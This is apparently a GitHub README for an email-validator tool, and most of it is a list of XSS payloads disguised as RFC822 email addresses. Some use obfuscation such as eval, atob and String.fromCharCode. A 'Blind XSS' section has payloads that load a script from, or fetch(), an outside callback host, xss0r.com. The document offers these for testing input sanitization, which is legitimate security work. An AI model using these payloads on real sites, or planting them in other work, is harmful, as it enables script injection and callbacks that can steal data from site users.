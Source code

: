 # RFC822 Email Validator
Sleek UI, lightning-fast validation, powered by HTML, CSS, and JavaScript. Get instant results with zero hassle.

# Security Testing
Use this tool to test how email input fields handle potentially dangerous strings. Example payloads:
```
"><svg/onload=confirm(1337)>"@x.y
"><svg/onload=alert`XSS!`>"@x.y
"><svg><script>alert(48)</script>"@x.y
"><svg><title>1</title><script>alert(47)</script>"@x.y
"><svg/onload=eval('confirm(37)')>"@x.y
"><svg/onload=confirm?.(33)>"@x.y
"><math><mtext></title><script>confirm(31)</script>"@x.y
"><svg/onload=(confirm)(29)>"@x.y
"><script>setTimeout(()=>confirm(22))</script>"@x.y
"><svg/onload=Function('confirm(20)')()>"@x.y
"><svg/onload=eval(atob('Y29uZmlybSgxOSk='))>"@x.y
"><svg/onload=confirm(String.fromCharCode(49,56))>"@x.y
"><svg><foreignObject><script>confirm(15)</script></foreignObject></svg>"@x.y
"><svg/onload=alert(8)>"@x.y
"><math><mtext></title><script>confirm(6)</script>"@x.y
"><svg><script>confirm(4)</script>"@x.y
"><script>alert(3)</script>"@x.y
"><svg/onload=confirm(1)>"@x.y
```
Test Blind XSS payloads with RFC822 Email Validator for secure input validation. Example payloads:
```
%22%27%3E%3Cscript%3Ealert%281234567%29%3C%2Fscript%3E@x.y
ibro%27%22%3E%3Cscript%20src%3Dhttps%3A%2F%2Fxss0r.com%2Fc%2Fbrocode%3E%3C%2Fscript%3E@xss0r.com
"'><svg/onload=fetch('https://xss0r.com/c/brocode')>"@x.y
"'><svg><script>fetch('https://xss0r.com/c/brocode')</script></svg>"@x.y
"'><script>fetch('https://xss0r.com/c/brocode')</script>"@x.y
```

Great for detecting weaknesses in forms, input sanitization, or frontend validation logic.

![RFC822 Email Validator](https://github.com/0xlipon/RFC822-Email-Validator/blob/main/RFC822.png?raw=true)

# Inspired By
Inspired by `@coffinxp/RFC822-Email-Validator` — now redefined for the web.
